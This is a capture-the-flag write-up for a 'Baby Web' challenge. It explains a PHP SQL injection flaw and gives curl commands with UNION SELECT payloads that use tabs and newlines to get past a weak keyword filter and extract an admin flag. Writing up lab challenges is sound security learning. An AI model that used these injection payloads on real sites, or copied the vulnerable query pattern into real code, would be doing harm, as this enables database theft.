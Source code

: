 # Baby Web

> It is all in the challenge.
>  
> http://ctf.pwn.sg:8180
>  
> *Creator - quanyang (@quanyang)


### The website


> The flag is in the flag column of the user 'admin'. 


This is the screenshot of the website. We are given a search bar to search for users.
![xctf_2018_baby_web_website_screenshot.png](xctf_2018_baby_web_website_screenshot.png)

The source of the php file is in `src/baby_web.php`. The vulnerability lies inside that file.

### Vulnerable to SQL injection

The following php statements show that the SQL query is vulnerable to injection.
```
$sql = "SELECT username FROM users WHERE username like '%$username%';";
$result = $conn->query($sql);
```



### A form of "Protection" 

The SQL injection is not that straight forward though. There is a form of "protection".
```
$username = str_replace(" ","", $username);
$array = array("=", "union", "join", "select", "or", "from", "insert", "delete");
if(0 < count(array_intersect(array_map('strtolower', explode(' ', $username)), $array)))
{
die("die hacker!");
}
```

> str_replace — Replace all occurrences of the search string with the replacement string
> explode — Split a string by a string

`str_replace(" ","", $username)` deletes spaces from the variable `$username`. So when we give an input `"ad min"`, the SQL select statement selects usernames that matches `"admin"`.

![xctf_2018_baby_web_demo.png](xctf_2018_baby_web_demo.png)



### Attempting to exploit

That just means we cannot use spaces. What about newline and tab characters? They work, but unfortunately we cannot use the `'\n'` and `'\t'`. Both curl queries below result in HTTP error 500.

```
curl --data-binary "username=%'\nUNION\nSELECT\nflag\nFROM\nusers;#--" -X POST http://ctf.pwn.sg:8180/?search
```

```
curl --data-binary "username=%'\tUNION\tSELECT\tflag\tFROM\tUSERS;#--" -X POST http://ctf.pwn.sg:8180/?search
```

![xctf_2018_baby_web_error.png](xctf_2018_baby_web_error.png)


This is where we got stuck. We did not manage to solve the challenge. Turns out, we were on the right track. We just had to make a minor change to win.

### Successful exploitation

We should have used a file instead, where we could add tab and newline characters without using `'\t'` and `'\n'`.

```
$ cat query_string 
username=%'	UNION	SELECT	flag	FROM	users;#--
$ curl -d "@query_string" -X POST http://ctf.pwn.sg:8180/?search > output.html
```

![xctf_2018_baby_web_winner.png](xctf_2018_baby_web_winner.png)

We were *that* close to winning.

